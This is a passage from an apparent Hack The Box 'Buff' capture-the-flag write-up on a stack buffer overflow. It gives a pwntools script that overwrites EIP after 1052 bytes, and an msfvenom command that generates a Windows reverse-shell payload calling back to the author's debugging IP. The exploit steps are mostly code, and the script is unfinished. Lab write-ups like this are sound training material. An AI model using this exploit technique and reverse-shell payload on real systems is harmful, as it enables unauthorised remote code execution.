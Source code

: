 ![Desktop View](/assets/img/htb/buff/findall_1.png)

and I can use any of these instructions 


![Desktop View](/assets/img/htb/buff/instructions_1.png)


I add those instructions to the script in the eip variable.

```python
from pwn import *

context(arch="i386",os="linux")

def exploit():
    
    buffer = b"\x55" * 1052
    
    eip = p32(0x0040D7ED)
    
    payload = buffer + eip

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()    

```


#### creating shellcode

I create a shellcode with msfvenom removing the badchars and configured to connect to my vboxnet0 interface ip (192.168.56.1) which is where I am debugging.

``` bash
$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=9001 -b "\x00\x0a\x0d\xff" -f py -v shellcode EXITFUNC=thread
```
